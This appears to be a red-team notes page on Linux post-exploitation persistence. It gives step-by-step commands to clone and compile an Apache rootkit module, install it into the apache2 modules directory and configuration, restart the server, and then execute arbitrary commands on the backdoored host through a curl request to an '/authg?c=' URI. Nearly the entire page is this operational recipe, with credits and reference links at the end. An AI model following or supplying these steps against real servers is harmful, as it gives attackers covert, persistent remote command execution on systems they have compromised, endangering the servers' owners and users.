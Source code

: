 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - linux
credits:
  - HackerSploit
---
```

# Apache Rootkit

## Prerequisites

### Dependencies

Install the required dependencies according to your distribution.

```
$ sudo apt-get install apache2-dev
```

### Compile

```
$ git clone https://github.com/ChristianPapathanasiou/apache-rootkit.git && \
cd apache-rootkit/ && apxs -c -i mod_authg.c
```

## Install Rootkit

```
# cp mod_authg.so /usr/lib/apache2/modules/

# chmod 644 /usr/lib/apache2/modules/mod_authg.so
```

Add the lines in the apache2 configuration file.

```
# nano /etc/apache2/apache2.conf
LoadModule authg_module /usr/lib/apache2/modules/mod_authg.so
<Location /authg>
SetHandler authg
</Location>
..[omitted]..
```

Restart the web server to load the module.

```
$ sudo systemctl restart apache2
```

Execute commands on the backdoored web server with a new URI handle.

```
$ curl -A <user_agent> http[s]://<target_IP>[:<PORT>]/authg?c=<commands>
```

---
## References

### Backlinks

- [[Linux Post Exploitation Persistence References]]

### Github

- [apache-rootkit](https://github.com/ChristianPapathanasiou/apache-rootkit)

### HackerSploit

- [HackerSploit: Linux Red Team Defense Evasion - Apache2 Rootkit](https://hackersploit.org/linux-red-team-defense-evasion-apache2-rootkit/)